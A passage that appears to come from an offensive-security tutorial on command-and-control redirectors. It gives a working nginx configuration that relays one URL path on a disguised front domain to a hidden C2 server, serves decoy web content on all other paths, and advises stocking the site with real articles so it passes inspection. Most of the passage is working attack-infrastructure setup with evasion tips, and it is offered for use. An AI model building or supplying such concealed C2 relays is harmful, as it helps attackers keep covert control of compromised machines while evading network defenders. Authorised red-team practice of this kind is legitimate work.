 Different situations call for different types of redirectors. Let's look at the most common ones and how to set them up.

### HTTP/HTTPS Redirectors

HTTP redirectors are super popular because HTTP traffic blends in perfectly with normal web browsing. Most corporate environments don't block it, making it ideal for C2.

#### Nginx Implementation

Nginx makes a great HTTP redirector. It's fast, flexible, and doesn't use many resources. Here's how to set it up:

```nginx
server {
    listen 80;
    listen 443 ssl;
    server_name legitimate-looking-domain.com;

    ssl_certificate /etc/letsencrypt/live/legitimate-looking-domain.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/legitimate-looking-domain.com/privkey.pem;

    access_log /var/log/nginx/legitimate-looking-domain.com.access.log;
    error_log /var/log/nginx/legitimate-looking-domain.com.error.log;

    # Critical: Only forward specific URIs to avoid detection
    location /news/api/v1/ {
        proxy_pass https://actual-c2-server.com:443/api/;
        proxy_ssl_server_name on;
        proxy_ssl_name actual-c2-server.com;
        proxy_set_header Host actual-c2-server.com;
        
        # Hide original headers
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Real-IP $remote_addr;
    }

    # Serve legitimate content for all other requests
    location / {
        root /var/www/legitimate-looking-domain.com;
        index index.html;
    }
}
```

This config does several important things:
- Listens on both HTTP and HTTPS ports
- Only forwards specific URLs to your C2 server
- Serves normal content for everything else
- Preserves client IP info
- Handles SSL encryption

For best results, put real content on your web server that matches the domain name. If your domain is news-related, throw some articles and images on there to make it look legit to anyone who checks.

